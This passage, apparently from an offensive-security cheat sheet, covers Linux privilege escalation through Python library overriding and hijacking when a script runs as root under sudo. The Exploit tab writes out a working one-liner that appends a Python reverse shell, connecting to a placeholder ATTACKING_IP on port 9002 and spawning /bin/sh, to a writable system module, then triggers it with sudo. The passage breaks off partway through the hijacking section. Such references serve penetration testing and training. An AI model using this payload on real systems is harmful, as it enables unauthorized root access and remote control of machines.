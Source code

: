 ### Python Library Overriding

{% tabs %}
{% tab title="Enumerate" %}
Assume the python script can be executed as root with sudo rights. If the Python script contains a **module that can be modified** by current user, we can inject arbitrary code into the module.

```bash
sudo -l
    (root): /usr/bin/python3 /opt/scripts/example.py
```

Find writable python modules

```bash
$ find / -name "*.py" -writable 2>/dev/null
/usr/lib/python3.11/random.py
```

We can check if modules on which we have write access are imported by the script

```python
import random
print(random.randint(1, 8))
```
{% endtab %}

{% tab title="Exploit" %}
We can append our payload at the end the of the module

```bash
$ echo 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING_IP",9002));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")' >> /usr/lib/python3.11/random.py
```

Then run the python script with sudo

```bash
sudo /usr/bin/python3 /opt/scripts/example.py
```
{% endtab %}
{% endtabs %}

### Python Library Hijacking

{% tabs %}
{% tab title="Enumerate" %}
Assume the python script can be executed as root with sudo rights. If we can **write on the folder containing the script**, then python will prioritize the execution of this module instead of the usual path

```bash
sudo -l
    (root): /usr/bin/python3 /opt/scripts/example.py
```

Check what modules are imported by the script
